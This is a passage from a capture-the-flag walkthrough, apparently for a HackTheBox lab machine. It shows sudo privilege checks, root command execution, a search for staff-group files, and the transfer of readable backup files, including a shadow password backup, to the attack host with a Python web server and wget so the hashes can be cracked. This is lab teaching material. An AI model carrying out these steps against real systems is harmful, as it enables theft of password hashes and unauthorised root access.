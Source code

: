 ```bash
sudo -l
sudo /root/troll
sudo /root/troll
sudo /root/troll
sudo /root/troll

```

Let’s check our sudo privileges as well:

```bash
sudo -l 

User sunny may run the following commands on sunday:
    (root) NOPASSWD: /root/troll
```

Let’s try executing it:

```bash
sudo /root/troll

testing
uid=0(root) gid=0(root)

```

Let’s also see what files belong to group staff

```bash
find / -group staff 2>/dev/null

#interesting findings:
/var/share/user/root
/var/share/user/101
/var/share/user/100
/var/share/user/sammy
/var/share/adm/lastlog
/tmp/volatile-user/101
```

Nothing useful. Looking back at history, we see a /backup dir:

```bash
ls -l /backup

total 4
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup
```

We can read it. Let’s transfer the files back and attempt to bruteforce crack it:

```bash
cd /backup
python3 -m http.server 8000

#on attack host
wget http://10.10.10.76/agent22.backup
wget http://10.10.10.76/shadow.backup
```
